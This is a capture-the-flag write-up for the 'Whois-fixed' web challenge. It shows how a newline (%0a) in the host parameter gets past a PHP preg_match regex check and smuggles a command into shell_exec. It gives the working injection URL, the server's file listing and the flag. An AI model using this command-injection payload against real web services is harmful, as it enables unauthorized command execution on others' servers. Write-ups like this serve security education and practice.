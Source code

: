# Whois-fixed

## Description:

> Tags: medium

> A web-based Whois service.
>
> **Note** : There was a problem with the first version, this is the fixed version.

> Author : souad

> https://whois-fixed.challs.shellmates.club

## First thoughts:

So from the previous challenge, we know that there was a misconfiguration and accessing 
```
https://whois-fixed.challs.shellmates.club/flag.txt
```
return Not found page.

Son now, we have to focus on bypassing the regex check

## Understanding the regex:

The first regex for `host` variable tests if it matches: 
```php
$host_regex = "/^[0-9a-zA-Z][0-9a-zA-Z\.-]+$/";
```
and `query` if it matches:
```php
$query_regex = "/^[0-9a-zA-Z\. ]+$/";
```

## Solution:

The PHP function `preg_match` matches only the first line, so if we insert `\n` in the host, we will be able to add any commands we want to be executed with `shell_exec`.

So accessing:
```
https://whois-fixed.challs.shellmates.club/query.php?host=whois.verisign-grs.com%0a&query=ls
```

we get all the files available in the server:
```
index.html
query.php
thisistheflagwithrandomstuffthatyouwontguessJUSTCATME
```
and the flag is:
```
shellmates{i_$h0U1D_HaVE_R3AD_7HE_dOc_W3Ll_9837432986534065}
```
